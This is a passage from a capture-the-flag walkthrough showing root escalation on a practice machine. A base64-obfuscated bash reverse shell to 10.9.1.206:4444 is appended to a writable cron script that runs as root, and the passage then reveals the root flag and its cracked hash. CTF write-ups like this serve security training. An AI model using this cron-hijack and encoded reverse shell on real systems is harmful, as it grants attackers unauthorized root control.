boring@kral4-PC:~$ ls -la /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh
```

We can add our reverse shell payload from `penelope` to the file:
```bash
echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4xLjIwNi80NDQ0IDA+JjEpICY=|base64 -d|bash' >> /var/www/.mysecretcronjob.sh
```
And now just wait one minute for the cronjob to execute this script as `root` user.

We got the root shell


And find the root flag:
```bash
root@kral4-PC:/# cd /root
root@kral4-PC:~# ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Nov  7 01:07 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt 
flag{63a9f0ea7bb98050796b649e85481845}
```

So the flag is:
```
flag{63a9f0ea7bb98050796b649e85481845}
```

I cracked this md5 hash using [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash), it is:
```bash
63a9f0ea7bb98050796b649e85481845:root
```